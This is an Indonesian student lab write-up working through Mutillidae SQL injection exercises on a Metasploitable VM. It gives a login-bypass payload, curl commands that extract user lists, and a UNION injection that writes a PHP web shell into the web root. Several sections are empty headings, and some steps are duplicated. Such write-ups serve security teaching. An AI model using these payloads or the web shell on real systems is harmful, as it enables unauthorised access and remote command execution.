 # Tugas-Final-PKSJ
Tugas final PKSJ 2017
 OLEH 
- 5114100092    KHARISMA MONIKA
- 5114100131    Michael Dave
- 5114100081    M. Luqmanul Hakim

## Multidiae
### Lesson 5
  1. Membuka halaman mutillidae dengan memasukan URL sebagai berikut [IP_metasploitable]/mutillidae seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/home.png "Mutillidae Homepage") 
pada gambar 192.168.56.101/mutillidae

2. Pilih halaman login dengan menekan tulisan login di sebelah kiri atas dari halaman mutillidae
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/login.png "Mutillidae Login page")

3. Isikan (') / petik satu / single_quote pada kolom name seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/single_quote_test.png "Mutillidae single quote test")
Lalu tekan enter

4. Dapat dilihat dibagian atas muncul error log yang memberikan indikasi mengenai format dari dari perintah SQL untuk login
yaitu SELECT * FROM accounts WHERE username=''' AND password=''
dimana (') menyebabkan error pada eksekusi command sql.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/single_quote_test_report.png "Mutillidae single quote test report")

5. Dengan demikian maka dapat dilakukan login dengan mem-bypass password menggunakan sql injection dengan mengetikan perintah
sebagai berikut "'or 1=1-- " (petik 2 tidak perlu diketik juga)
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test.png "Mutillidae bypass login")
Perhatikan untuk memberikan spasi di akhir dari tanda (-- ).
Lalu tekan enter.

6. Hasilnya
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test_report.png "Mutillidae login as admin")
Perhatikan frasa logged in as Admin:admin

### Lesson 6

### Lesson 7
Note : harus mengganti settingan database pada metasploit, database name diubah menjadi owsp10

 1. Buka Mutillidae pada Browser dengan IP/mutillidae
 2. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
 ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/section%208%20user%20info.PNG "Tampilan USer Info")
 3. Settig proxy firefox dengan alamat 127.0.0.1:8080
 4. Setting Burpsuite, dengan menonaktifkan intercept
 5. Di page user info masukkan username:
  ' 1=1-- 
  Lihat URL yang dihasilkan. Url yang dihasilkan seperti berikut : 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test.png "Tampilan User Page Info")
  http://192.168.149.101/mutillidae/index.php?page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details
      Terlihat +or+1%3D1-- 
        Keterangan :
        + : space
        %3D : =
   ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/SQL%20Injection%20Obtain%20Userlist.PNG "LIST Username")
  6. Lihat di history http di burpsuite. History burpsuite menunjukkan encoded sql injection. Untuk proses selanjutnya menggunakan curl.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/history%20burpsuite.PNG "History burpsuite")
  7. SQL injection dengan curl. dengan perintah " curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://192.168.1.111/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}' "
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20curl.PNG "HASIL CURL")
  
  8. Membuat output file dengan memasukkan hasil curl pada lesson7.txt dengan perintah "  curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://192.168.1.111/mutillidae/index.php" | grep "Username=" > lesson7.txt  " 
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20cat%20lesson7.PNG "HASIL CAT CURL")
  
  9. Selanjutnya adalah SQL injection dengan Perl. Download Script Output parser, dengan perintah wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT
  10. Rename menjadi extensi perl, dengan perintah mv lesson7.pl.TXT lesson7.pl
  11. ubah permission agar dapat membaca dengan perintah chmod 700 lesson7.pl
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/download%20output%20parser.PNG "HASIL DOWNLOAD PERL")
  
  12. Jalankan script perl dengan perintah ./lesson7.pl
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20run%20perl%20script.PNG "HASIL SQL INJECTION DENGAN PERL")
   
### Lesson 8
### Lesson 9
### Lesson 10
  1. Melihat database pada mutillidae. 
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/show%20database%20dan%20use%20owasp10.PNG "DATABASES PADA MUTILLIDAE")
    2. Melihat tabel database owasp10
    
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/show%20tables%20owasp10.PNG "TABEL PADA OWASP10")
    3. Melihat field pada tabel account
    
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/desc%20accounts.PNG "FIELD TABEL ACCOUNT")
    4. Buka mutillidae pada browser
    5. Menuju menu user info. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
    6. Inspect elemen pada textbox name, lalu ubah size.
    
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/inspect%20elemet%20100.PNG "INSPECT ELEMEN dan UBAH SIZE")
    7. Melakukan Backdoor Union SQL Union Injection. Dengan perintah " ' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' --  "
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20run%20perl%20script.PNG "HASIL SQL INJECTION DENGAN PERL")
    12. Jalankan script perl dengan perintah ./lesson7.pl
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20run%20perl%20script.PNG "HASIL SQL INJECTION DENGAN PERL")
    12. Jalankan script perl dengan perintah ./lesson7.pl
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20run%20perl%20script.PNG "HASIL SQL INJECTION DENGAN PERL")
### Lesson 11

## Cuckoo
### Instalasi
### Konfigurasi
### Testing

## Snort
### Instalasi
### Konfigurasi
### Testing
